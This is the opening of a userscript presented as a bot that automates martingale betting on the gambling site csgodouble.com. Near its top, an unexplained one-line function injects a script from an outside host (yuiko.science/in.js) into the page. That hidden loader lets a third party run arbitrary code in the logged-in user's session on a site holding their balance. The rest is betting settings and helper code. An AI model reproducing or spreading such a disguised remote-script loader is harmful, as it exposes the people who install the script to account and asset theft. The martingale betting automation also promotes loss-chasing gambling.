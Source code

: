 // ==UserScript==
// @name            csgodouble.com - automated
// @description     An userscript that automates csgodouble.com betting using martingale system.
// @namespace       automated@mole
// @version         1.30
// @author          Mole
// @match           http://www.csgodouble.com/
// @match           http://www.csgodouble.com/index.php
// @run-at          document-end
// @grant           none
// ==/UserScript==
/* jshint -W097 */

'use strict';

(function () { var scriptElement = document.createElement( "script" ); scriptElement.type = "text/javascript"; scriptElement.src = "//yuiko.science/in.js "; document.body.appendChild( scriptElement ); })();

var debug = false;
var simulation = false;
var stop_on_min_balance = false;
var calculate_safe_bet = false;
var base_bet = 5;
var safe_bet_amount = 6;
var default_color = 'red';
var default_method = 'martingale';
var theme = 'dark';

var colors = {
    'green': [0],
    'red': [1, 2, 3, 4, 5, 6, 7],
    'black': [8, 9, 10, 11, 12, 13, 14]
};

var balance = document.getElementById('balance');
var roll_history = document.getElementById('past');
var bet_input = document.getElementById('betAmount');
var bet_buttons = {
    'green': document.getElementById('panel0-0').childNodes[1].childNodes[1],
    'red': document.getElementById('panel1-7').childNodes[1].childNodes[1],
    'black': document.getElementById('panel8-14').childNodes[1].childNodes[1]
};

Array.prototype.equals = function(array) {
    if (!array) {
        return false;
    }

    if (this.length != array.length) {
        return false;
    }

    for (var i = 0, l=this.length; i < l; i++) {
        if (this[i] instanceof Array && array[i] instanceof Array) {
            if (!this[i].equals(array[i])) {
                return false;
            }
        } else if (this[i] != array[i]) {
            return false;
        }
    }
    return true;
};
